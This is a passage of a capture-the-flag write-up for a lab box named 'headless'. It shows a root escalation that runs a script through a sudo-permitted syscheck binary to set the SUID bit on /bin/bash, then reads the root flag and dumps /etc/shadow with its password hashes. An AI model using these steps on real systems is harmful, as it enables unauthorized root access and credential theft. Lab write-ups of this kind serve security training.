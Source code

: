 We made it executable.

```c
dvir@headless:~$ chmod +x initdb.sh
```

And after we fired the script, the `SUID` bit got set on `/bin/bash`.

```c
dvir@headless:~$ sudo /usr/bin/syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 2.1G
System load average:  0.00, 0.00, 0.00
Database service is not running. Starting it...
```

## root.txt

```c
bash-5.2# cat /root/root.txt
793fa1042a50932dc44ab833b34acc2d
```

## Post Exploitation

```c
bash-5.2# cat /etc/shadow
root:$y$j9T$2cy/WxPggISXkBDRmZbL10$0w8yfYfo92xIpj.Qu7zcpzqjLInUcI26SaM2l0IRS.7:19737:0:99999:7:::
daemon:*:19609:0:99999:7:::
bin:*:19609:0:99999:7:::
sys:*:19609:0:99999:7:::
sync:*:19609:0:99999:7:::
games:*:19609:0:99999:7:::
man:*:19609:0:99999:7:::
lp:*:19609:0:99999:7:::
mail:*:19609:0:99999:7:::
news:*:19609:0:99999:7:::
uucp:*:19609:0:99999:7:::
proxy:*:19609:0:99999:7:::
www-data:*:19609:0:99999:7:::
backup:*:19609:0:99999:7:::
list:*:19609:0:99999:7:::
irc:*:19609:0:99999:7:::
_apt:*:19609:0:99999:7:::
nobody:*:19609:0:99999:7:::
systemd-network:!*:19609::::::
tss:!:19609::::::
systemd-timesync:!*:19609::::::
messagebus:!:19609::::::
usbmux:!:19609::::::
dnsmasq:!:19609::::::
avahi:!:19609::::::
speech-dispatcher:!:19609::::::
fwupd-refresh:!:19609::::::
saned:!:19609::::::
geoclue:!:19609::::::
polkitd:!*:19609::::::
rtkit:!:19609::::::
colord:!:19609::::::
dvir:$y$j9T$IKU310jZ./br3hMhSpYSH0$IbCr4LIWNnOd76D2ObQYiNOCmGX4ZI7DTnKjbs8gXe9:19610:0:99999:7:::
sshd:!:19610::::::
_laurel:!:19769::::::
```
